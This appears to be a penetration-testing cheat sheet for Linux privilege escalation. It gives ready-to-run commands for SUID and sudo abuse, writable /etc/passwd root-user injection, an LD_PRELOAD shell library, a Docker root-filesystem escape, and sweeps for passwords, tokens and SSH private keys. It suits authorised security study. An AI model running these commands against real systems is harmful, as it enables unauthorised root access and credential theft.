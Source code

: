 ## Linux Priviledge Escalation
- OS Version

- Kernel Exploits
   - **Check Kernel**: `uname -r`
   - **Exploit**: Search for exploits by kernel version on Exploit-DB.
     
- Running Services
  
- SUID Binaries
   - **Find SUID Files**: `find / -perm -4000 2>/dev/null`
   - **Exploits**: Use GTFOBins for known SUID binary exploits.

- sudo -l (Check Sudo Privileges)
   - **List Privileges**: `sudo -l`
   - Running a vuln executable as particular user, `sudo -u targetuser /bin/vulnfile`
   - **Exploits**: Look for `NOPASSWD` or exploitable commands (e.g., `vim`, `find`).

- Cron Jobs
   - **View Cron Jobs**: `cat /etc/crontab`, `ls -la /etc/cron.d/`
   - **Exploits**: Writable cron scripts or wildcard abuse.

- Writable /etc/passwd
   - **Exploit**: Add new root user using password hash from `openssl passwd -1`.

- SSH Keys
   - **Find Keys**: `find / -name "*.pem" 2>/dev/null`
   - **Exploit**: Use private key for SSH if no passphrase.

- PATH Variable Manipulation
   - **Exploit**: Modify `PATH` and place malicious script in writable directory.

- NFS Root Squashing
   - **Check**: Look for `no_root_squash` in `/etc/exports`
   - **Exploit**: Mount and access with root on NFS share.

- World-Writable Files
   - **Find**: `find / -writable -type d 2>/dev/null`
   - **Exploit**: Overwrite world-writable scripts or binaries.

- LD_PRELOAD and LD_LIBRARY_PATH
   - **Exploit**: Inject code with custom library.
     ```bash
     gcc -fPIC -shared -o shell.so shell.c -nostartfiles
     LD_PRELOAD=./shell.so <vulnerable_program>
     ```
- Docker Privilege Escalation
   - **Exploit**: Mount root filesystem and escape container:
     ```bash
     docker run -v /:/mnt --rm -it alpine chroot /mnt sh
     ```
- Password and Credential Files
   - **Find Sensitive Files**:
     ```bash
     find / -type f -exec grep -Ei 'password|passwd|pwd|secret|token|key' {} \; 2>/dev/null
     find / -type f -exec grep -iE 'pass(word)?\s*=\s*["'\'']?.+["'\'']?' {} \; 2>/dev/null
     find / -name "*.bak" 2>/dev/null
     find / -name "*.old" 2>/dev/null
     ```
- Check Hidden Files
- Check Hidden Direstories
  - **ssh files**
    ```bash
    find / -name "id_rsa" -o -name "id_dsa" -o -name "authorized_keys" -o -name "known_hosts" 2>/dev/null
    find / -name "*.pem" -o -name "*.key" 2>/dev/null
    ```

     
## Common Checks
```bash
whoami #username
hostname #hostname
cat /etc/os-release #os details
uname -a #kernel details
lscpu #cpu details
route #ip and interface details
cat /etc/passwd | cut -f1 -d: # users details

```
